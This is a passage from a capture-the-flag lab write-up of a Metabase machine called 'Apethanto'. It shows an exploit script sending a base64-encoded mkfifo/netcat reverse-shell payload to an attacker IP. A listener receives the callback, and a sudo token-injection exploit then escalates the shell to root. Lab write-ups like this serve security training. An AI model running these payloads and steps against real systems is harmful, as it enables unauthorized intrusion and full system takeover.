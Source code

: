```python
    send_reverse_shell_request(target_host, setup_token, payload)
    print("Reverse shell request sent successfully.")
```
Don't forget to change the command to make a reverse shell connection to your IP. Start a netcat listener on port 443 and run the script:
```console
$ python3 exploit.py -u http://metabase.apethanto.htb
Target Host: http://metabase.apethanto.htb
Setup Token: 819139a8-1ce9-46f0-acf8-9b4fc0d1164b
Version: v0.46.6
Sending payload: cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnxiYXNoIC1pIDI+JjF8bmMgMTAuMTAuMTQuMjQwIDQ0MyA+L3RtcC9m
Sending POST request to http://metabase.apethanto.htb/api/setup/validate...

Reverse shell request sent successfully.
```
We instantly get a callback on our listener:
```console
$ sudo nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.240] from (UNKNOWN) [10.129.240.39] 59728
bash: cannot set terminal process group (730): Inappropriate ioctl for device
bash: no job control in this shell

metabase@Apethanto:~$
```

We now have a shell as the metabase user. The user flag can be found at `/home/metabase/user.txt`.

### Privilege Escalation
The only thing that stands out is that we are part of the `sudo` group.
```console
metabase@Apethanto:~$ id
uid=998(metabase) gid=998(metabase) groups=998(metabase),27(sudo)
```
Looking around the web for more information, we find [this](https://github.com/nongiach/sudo_inject) project. We copy `exploit_v3.sh` from  the repo to our target. Then, we make it executable and execute it.
```console
$ chmod +x exploit_v3.sh
$ ./exploit_v3.sh
```
It might not work the first time if the SUDO token is expired, so after a few tries it should give us a root shell.
```console
metabase@Apethanto:/tmp$ ./exploit_v3.sh
Injecting process 1038 -> bash
Injecting process 1041 -> bash
Injecting process 1047 -> bash
Injecting process 1198 -> bash
Injecting process 1275 -> bash

root@Apethanto:~# 
```
